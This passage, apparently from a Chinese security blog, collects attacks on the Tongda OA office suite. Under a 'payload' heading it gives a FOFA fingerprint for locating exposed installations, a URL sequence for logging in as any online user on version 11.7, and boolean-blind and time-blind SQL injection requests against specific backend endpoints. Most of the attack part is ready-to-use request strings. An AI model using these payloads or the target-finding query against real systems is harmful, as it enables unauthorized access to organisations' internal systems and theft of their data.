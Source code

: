 少部分可以解出来

[![](https://p3.ssl.qhimg.com/t018989e6acb8295388.png)](https://p3.ssl.qhimg.com/t018989e6acb8295388.png)

### <a class="reference-link" name="4%EF%BC%8C%E5%86%85%E7%BD%AE%E7%9A%84nginx%E9%85%8D%E7%BD%AE%E7%9B%B4%E8%A7%A3%E6%9E%90php"></a>4，内置的nginx配置直解析php

```
location ~ \.php$ `{`
    fastcgi_pass   OfficeFPM;
    fastcgi_index  index.php;
    include        fastcgi.conf;

    add_header X-Frame-Options SAMEORIGIN;
`}`
```



## payload

fofa : “/static/templates/2019_01/logo.png”

### <a class="reference-link" name="1%EF%BC%8C%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%EF%BC%88%E8%A6%81%E6%B1%82%E7%94%A8%E6%88%B7%E5%9C%A8%E7%BA%BF%EF%BC%89"></a>1，任意用户登录（要求用户在线）

```
通达OA V11.7版本存在这任意用户登录漏洞
访问：http://127.0.0.1/mobile/auth_mobi.php?isAvatar=1&amp;uid=1&amp;P_VER=0
页面若是空白的即说明该uid用户在线，可以利用，此时访问：http://127.0.0.1/general/即可登录后台
若页面返回RELOGIN  则管理员不在线
```

[https://www.t00ls.net/viewthread.php?tid=59880&amp;highlight=%E9%80%9A%E8%BE%BE](https://www.t00ls.net/viewthread.php?tid=59880&amp;highlight=%E9%80%9A%E8%BE%BE)

### <a class="reference-link" name="2%EF%BC%8C%E5%90%8E%E5%8F%B0%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8"></a>2，后台布尔盲注

```
http://192.168.0.116/general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99))
```

[https://www.cnblogs.com/yuzly/p/13690737.html](https://www.cnblogs.com/yuzly/p/13690737.html)

### <a class="reference-link" name="3%EF%BC%8C%E5%90%8E%E5%8F%B0%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8"></a>3，后台时间盲注

```
http://192.168.0.116/general/email/inbox/get_index_data.php?timestamp=&amp;curnum=0&amp;pagelimit=10&amp;total=&amp;boxid=0&amp;orderby=(SELECT count(*) FROM information_schema.columns A, information_schema.columns B where 1=1 and (LENGTH(database())=5))
```

